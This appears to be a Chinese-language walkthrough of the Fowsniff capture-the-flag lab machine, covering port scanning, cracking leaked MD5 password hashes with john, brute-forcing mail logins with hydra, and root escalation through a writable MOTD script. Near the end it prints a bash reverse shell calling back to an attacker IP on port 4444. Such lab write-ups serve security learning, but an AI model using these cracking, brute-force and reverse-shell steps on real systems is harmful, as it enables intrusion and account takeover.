[TOC]

## 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.167
```

开放了22，80，110，143端口

分别进行tcp详细扫描，漏洞扫描和udp扫描

### tcp详细扫描



- 22端口：ssh服务
- 80端口：http服务，apache 2.4.18版本
- 110端口：pop3服务
- 143端口：imap服务

80端口发现了一个robots.txt

### 漏洞扫描



- 有DOS攻击，但不考虑
- 有sql注入
- 枚举了三个目录

### UDP端口扫描



没有重要信息

## 80端口分析



- 默认页面中写的大概意思是，网站出了错误，内部系统发生了数据泄露，但是客户信息并未受到影响，攻击者还成功劫持了他们的官方推特账号，攻击者可能通过这一渠道泄露敏感信息

- 所以这个靶机大概就是和信息泄露相关，并且额外开放的110和143端口都是邮件接收协议，所以很大概率和这个相关
- 接下来的思路就是先查看他的推特，然后在goole上搜索这个公司名称@fowsniffcorp 
- 与此同时，我进行了目录枚举

发现了一个security.txt



没什么信息了

## 社工信息收集



第一句话，转储所有的密码，还给了个链接，点进去看一下



额，我看别人的wp这个是有文字的，但不知道为什么给删了



根据他的介绍内容，猜测攻击者给我们的链接应该是公司的链接，除此之外还有个创建者



直接在goole上搜一下这个公司，还发现了另外信息在github上，其作者也是我们之前看到的创建者

- 查看内容

- 发现这个文件给出了一下邮箱和密码，并且提示这些都是md5加密的，破解并不难

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt leaked_data
```



- 注意下，john具有会话恢复机制，当破解一个文件的或者一个哈希值时，重复破解没有结果，可以通过john --show查看会话结果，也可以直接查看两个文件
- **`john.pot`**：记录**已破解**的密码哈希与明文的对应关系（无论是否成功，只要破解过就会记录）。
- **`john.rec`**：记录**本次会话的进度**（已尝试的单词位置、当前单词等）。

这两个文件都在~/.john/目录下生成，已经破解过的哈希值会出现在.pot文件中，比如



- 可以删除这个文件，然后再次破解，这样就和第一次破解的时候一样

------

将输出结果分别保存在两个文件中

先将输出的结果复制到cracked.txt中

```
cat cracked.txt | awk -F ' ' '{print$1}' > passwords
```



```
cat cracked.txt | awk -F ' ' '{print$2}' | awk -F '@' '{print$1}' | awk -F '(' '{print$2}' > users
```



尝试分别登录ssh,pop3,imap

- 这里了解到一个新的工具CrackMapExec，不过我没有深究，感觉在这里的作用和hydra差不多，就先用hydra



除了ssh都有结果

- 先从pop3入手

```
nc -nv 192.168.174.167 110
```



- 大致意思是给用户们一个临时密码，要求他们尽快登录并更改密码，所以接下来我们用这个临时密码进行碰撞





成功登录

- 在进行信息收集时，在搜索可写入文件时发现一个特殊文件



- （最上那个我是弄的），查看这个脚本，并且运行一下



发现输出的结果是我们登录shell时的欢迎界面，而且只有前半段部分，于是联想到可能存在motd提权

```
grep -r "/opt/cube/cube.sh" / 2>/dev/null
```

带着这个想法我尝试从根目录递归搜索一下哪些文件在运行这个脚本



果然/etc/update-motd.d/00-header运行了这个脚本

- 因为只有前半段部分是我们脚本输出结果，先输出欢迎信息再有用户的提示符的，所以大概率这个shell文件是以root身份执行的，登录shell的后半段部分是以用户的身份执行的

- 再查看一下我们是否有写入权限



我们当前的用户是users组，所以有对应的权限

- 接下来就是写入反弹shell，然后开启监听，再重新登陆，应该就可以拿到root了



```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/192.168.174.128/4444 0>&1"
```

退出后重新登陆



成功拿到root权限